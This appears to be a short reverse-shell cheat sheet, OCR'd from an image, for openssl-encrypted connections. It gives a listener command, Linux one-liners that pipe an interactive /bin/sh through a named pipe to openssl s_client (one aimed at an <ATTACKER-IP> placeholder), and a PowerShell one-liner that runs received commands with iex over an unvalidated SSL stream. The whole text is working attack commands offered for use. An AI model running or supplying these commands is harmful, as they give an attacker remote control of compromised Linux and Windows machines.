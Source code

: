 # openssl

Listener:
openssl s_server -quiet -key key.pem -cert cert.pem -port 443

Linux Client:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -CAfile /tmp/cert.pem -verify_return_error -verify 1 -connect 127.0.0.1:443 > /tmp/s; rm /tmp/s
(or)
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s

Windows Client:
$socket = New-Object Net.Sockets.TcpClient('127.0.0.1', 443);$stream = $socket.GetStream();$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]));$sslStream.AuthenticateAsClient('fake.domain');$writer = new-object System.IO.StreamWriter($sslStream);$writer.Write('PS ' + (pwd).Path + '> ');$writer.flush();[byte[]]$bytes = 0..65535|%{0};while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data | Out-String ) 2>&1;$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
